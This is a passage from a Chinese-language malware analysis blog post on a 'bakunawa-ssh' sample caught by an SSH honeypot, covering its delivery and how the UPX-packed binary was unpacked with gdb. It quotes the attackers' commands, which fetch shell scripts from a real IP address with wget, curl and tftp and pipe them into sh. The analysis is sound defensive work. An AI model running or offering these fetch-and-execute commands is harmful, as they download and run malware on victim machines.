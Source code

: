 ```yaml
---
layout: post
title: "MalwareMustDie bakunawa-ssh™样本分析"
---
```


# 0x00 背景

最近还是通过ssh蜜罐捕获到样本，都是通过下载sh脚本文件并执行：

```
wget -qO - http://198.1.70.128/1sh | sh > /dev/null 2>&1 &
rm -rf /var/run/1sh; wget -c http://198.1.70.128/1sh -P /var/run && sh /var/run/1sh &
wget -qO - http://198.1.70.128/2sh | sh > /dev/null 2>&1 &
rm -rf /tmp/2sh; wget -c http://198.1.70.128/2sh -P /tmp && sh /tmp/2sh &
curl http://198.1.70.128/3sh | sh
cd /dev/shm ; rm -rf tsh ; tftp -g 127.0.0.1 -r tsh ; sh tsh &
```



虽然这里有3个脚本文件，但通过对比下载的二进制文件md5，实际上1sh脚本中也就涵盖了各个平台下的恶意样本，逐一下载后无脑执行就可以了：

![][1]

# 0x01 脱壳

在[VT](https://www.virustotal.com/#/file/9c392a3372a6c07c0e4345b09615506f88e3870d02b6541ea3fb0650cb9286b7/details)上也可以看到这是最近才发现的样本，但这些样本都会把主控端的ip地址硬编码至程序中，所以时间上是没有意义的，注意到该样本是经过UPX加壳处理的：

![][2]

其实一开始`strings -a`也可以发现疑似UPX压缩的迹象，在IDA打开后完全是瞎的，所以程序内部会先进行解压缩然后跳转执行真正的代码。首先尝试`upx -d`脱壳未果：

![][3]

这里当然是针对UPX的脱壳程序做了一下处理，要不然在稍微懂点的人面前加壳跟没加一样。探索一番后发现，MalwareMustDie团队已经[20160416分析过](http://blog.malwaremustdie.org/2016/04/mmd-0053-2016-bit-about-elfstd-irc-bot.html)相似的样本，但给出的脱壳方法也不是太详细和便捷。在[国内](https://www.pediy.com/kssd/pediy10/79061.html)也有人使用IDA远程调试然后写idc脚本去dump，然而我的IDA神一般的远程attach不上，此方法有待后续探究学习。前面的文章里有提过0x8058ac0处保存的是压缩后的数据，而且还是ELF文件开头的，那我直接gdb attach上解压缩后的程序dump内存不就好了（`dump memory test2 0x08048000 0x08056000`），机智如你：

![][4]

# 0x02 自启动接收指令

## 执行命令

样本会调用getuid函数判断root权限，然后用snprintf函数完成命令字符串的构造，最终通过system函数执行命令。


[1]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn1zxu0cij21520kj7al.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn1zzmb3sj20wm0gt40g.jpg
[3]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn2018lq7j20mq0b1abm.jpg
[4]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn202f4awj20k305emy3.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn203pvxrj20n10abaa8.jpg
[6]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn207ogztj211u0c078d.jpg
[7]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn208bcjdj20l604zdfu.jpg
[8]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20a7xqgj20zy0c0dio.jpg
[9]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20arjzxj20n703nweh.jpg
[10]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20bmud1j20l908v74e.jpg
[11]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20c2w06j20lk02p745.jpg
[12]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn20ck8rfj20mu03lgli.jpg
[13]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20d8y7hj20kg0ac74l.jpg
[14]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20dtawij20m602q3yf.jpg
[15]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20eqyafj20qr09p74k.jpg
[16]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20g0rc5j20nn0l3ab1.jpg
[17]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20gsewij20oq09tt8w.jpg
[18]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20hey6cj20pb040mxb.jpg
[19]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20i1y9vj20lj04h3yg.jpg
[20]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20it1ftj20k104idfr.jpg
[21]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20juc4ej20lm09k0tq.jpg
[22]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20kxjj1j20lt07275a.jpg
[23]: https://wx2.sinaimg.cn/large/ee2fecafly1fnn20m58x7j20mb07k0u3.jpg
[24]: https://wx4.sinaimg.cn/large/ee2fecafly1fnn20nqk8pj20m90d20uy.jpg
[25]: https://wx1.sinaimg.cn/large/ee2fecafly1fnn20ob7xoj20nv07mq31.jpg
[26]: https://wx3.sinaimg.cn/large/ee2fecafly1fnn20pab75j20mu07l3ze.jpg